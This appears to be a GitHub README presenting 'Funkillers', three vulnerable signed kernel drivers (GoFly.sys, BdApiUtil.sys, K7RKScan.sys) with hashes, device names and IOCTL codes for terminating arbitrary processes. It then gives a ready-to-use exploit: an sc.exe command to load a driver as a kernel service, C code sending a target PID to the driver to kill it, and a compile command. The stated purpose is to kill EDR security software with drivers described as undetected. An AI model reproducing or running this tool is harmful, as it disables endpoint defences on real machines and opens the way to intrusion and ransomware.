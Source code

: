 # Funkillers (EDR killer drivers)

These drivers expose process termination APIs (e.g., `ZwTerminateProcess`) that can be used to terminate arbitrary processes (e.g. EDR). 
None of the drivers is flagged are malicious on VirusTotal. All vulnerabilities are "ZeroDays". 

## Driver 1 - GOLINK Software `GoFly.sys`

```
SHA256: 2FDFDD13A0C548BB68C9D5AA8599A9265D4659DA3E237FE7A42AC6AC06B9A06A
DeviceName: \\.\GoFly
IOCTL: 0x12227A
```

## Driver 2 - Baidu Antivirus `BdApiUtil.sys`

```
SHA256: 32198295D2A2700B9895FFF999C2B233F9BEFB0BC175815EC4B71EE926B6EDFC
DeviceName: \\.\BdApiUtil
IOCTL: 0x800024B4
```

## Driver 3 - K7 Antivirus `K7RKScan.sys`

```
SHA256: 5C6CE55A85F5D4640BD1485A72D0812BC4F5188EE966C5FE334248A7175D9040
DeviceName: \\.\DosK7RKScnDrv
IOCTL: 0x222018
```

## Exploit code

Create kernel service using one of the `.sys` drivers :

```Powershell
sc.exe create <ServiceName> binPath= <path.sys> type= kernel && sc.exe start <ServiceName>
```

Then compile and run exploit code with appropriate IOCTL / DeviceName

```C
#include <stdio.h>
#include <windows.h>

#define GETDAFUNK <IOCTL_HERE> // change this 

int main(void) {
  
	unsigned int pid;
	unsigned int res;
	DWORD lpBytesReturned = 0;

	HANDLE hDevice = CreateFileA("\\\\.\\<DeviceName here>", // change this
					GENERIC_WRITE|GENERIC_READ, 
					0, 
					NULL, 
					OPEN_EXISTING, 
					FILE_ATTRIBUTE_NORMAL, 
					NULL);
  
	if(hDevice == INVALID_HANDLE_VALUE){
		printf("[!] Connection to the driver failed\n");
		return -1;
	}
  
	printf("[+] Connected to driver\n");
	printf("[i] PID please : \n");
	scanf("%u", &pid);

	res = DeviceIoControl(hDevice, GETDAFUNK, &pid, sizeof(pid), NULL, 0, &lpBytesReturned, NULL);

	if (!res) {
		printf("[!] Funky IOCTL failed\n");
    		CloseHandle(hDevice);
    		return -1;
	}
  
	printf("[+] Process with PID : %u killed\n", pid);
	CloseHandle(hDevice);
  
	return 0;
}

```

```bash
x86_64-w64-mingw32-gcc -o Funkyller.exe exploit.c 
```
